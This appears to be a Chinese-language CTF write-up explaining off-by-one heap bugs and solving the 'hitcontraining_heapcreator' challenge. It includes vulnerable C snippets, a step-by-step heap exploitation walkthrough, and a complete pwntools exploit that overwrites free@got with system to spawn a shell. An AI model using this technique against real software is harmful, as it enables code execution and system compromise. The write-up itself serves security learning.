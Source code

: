 ```yaml
---
title: Off-By-One
tags: [ctf-pwn,heap]
date: 2022-11-27 19:00:00
categories: [ctf-pwn]
excerpt: 堆中的 off-by-one 漏洞, hitcon_heapcreator exp
---
```


#### Off-By-One漏洞如何产生

1. 循环多一次

   ```C
   x = malloc(10);
   for(int i=0;i<=10;i++)
   {
       x[i] = getchar();
   }
   ```

   x的下一个chunk第一个字节被溢出了

2. `strlen`和`strcpy`行为不一致

   ```C
   if(strlen(buffer)==100)
   {
       strcpy(chunk,buffer);
   }
   ```

   `strlen`返回值不算结束符'`\0`，而`strcpy`复制时会把结束符在内的101个字符复制过去
   
   

#### hitcon_creator

题目来源

<https://buuoj.cn/challenges#hitcontraining_heapcreator>

##### 1. create

![](/img/off_by_one/1.png)

从上述结构可以推断出heaparray是如下结构

```C
struct heaparray_item{
    int_64   size;
    char * content;
}
struct heaparray_item * heaparray[10];
```



##### 2. edit

```C
if ( *(&heaparray + v1) )
{
    printf("Content of heap : ");
    read_input(*((_QWORD *)*(&heaparray + v1) + 1), *(_QWORD *)*(&heaparray + v1) + 1LL);
    puts("Done !");
}
```

`read_input`读取size+1字节，出现了off_by_one漏洞

可以覆盖下一个chunk的size字段



##### 漏洞利用

1. 申请三个堆块，大小为0x18,0x10,0x10，加上三次size申请的0x10，一共6个chunk

    ![](/img/off_by_one/2.jpg)

2. 修改0号块，写入`/bin/sh`，然后再溢出`0x81`到下一个chunk的size

   ![](/img/off_by_one/3.jpg)

3. 这时delete chunk 1，会合并到前一个chunk（也就是1的size所在chunk）中

    ![](/img/off_by_one/4.jpg)

    观察bins，发现这个chunk被free到fastbin的0x80节点上（0x20上也有一个chunk是因为delete也会将size释放掉）

    ![](/img/off_by_one/5.jpg)

4. 申请一个新的chunk，将0x80这个块申请出来，因此malloc的大小需要为0x70

    同时，在2号的content位置写入`free@got`

    这时调用show(2)会泄露free的地址

    ![](/img/off_by_one/6.jpg)

5. 泄露libc基址找到system地址

6. `edit(2,p64(system_addr))`时，会修改content指针指向的内容，而content指针被`free@got`替换掉了，所以free的got表被修改成了`system@got`上的地址

7. 然后`delete(0)`时，首先要free掉`heaparray[0].content`上的内容，但是由于free被替换成了system，结果就变成了以content指针为参数调用system函数的情况，而`heaparray[0].content`恰好是之前写过的`/bin/sh`，因此执行了`system('/bin/sh')

   

##### 完整exp

> libcsearcher挑版本为2.23的

```python
from pwn import *
from LibcSearcher import *
r = process('./heapcreator')
#r = remote('node4.buuoj.cn',26117)
elf = ELF('./heapcreator')

def add(size,content):
    r.sendlineafter("choice :",'1')
    r.sendlineafter("Heap : ",str(size))
    r.sendlineafter("heap:",content)

def edit(idx,content):
    r.sendlineafter("choice :",'2')
    r.sendlineafter("Index :",str(idx))
    r.sendlineafter("heap : ",content)

def show(idx):
    r.sendlineafter("choice :",'3')
    r.sendlineafter("Index :",str(idx))

def delete(idx):
    r.sendlineafter("choice :",'4')
    r.sendlineafter("Index :",str(idx))

free_got = elf.got['free']

add(0x18,"MMMM")
add(0x10,"MMMM")
add(0x10,"MMMM")
#gdb.attach(r)

edit(0,b'/bin/sh\x00'+p64(0)*2+b'\x81')
#gdb.attach(r)

delete(1)
#gdb.attach(r)

add(0x70,p64(1)*8+p64(0x8)+p64(free_got))
show(2)
#gdb.attach(r)

free_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

#libc
libc = LibcSearcher('free',free_addr)
offset = free_addr-libc.dump('free')
system_addr = offset + libc.dump('system')

edit(2,p64(system_addr))
#gdb.attach(r)
delete(0)

r.interactive()
```

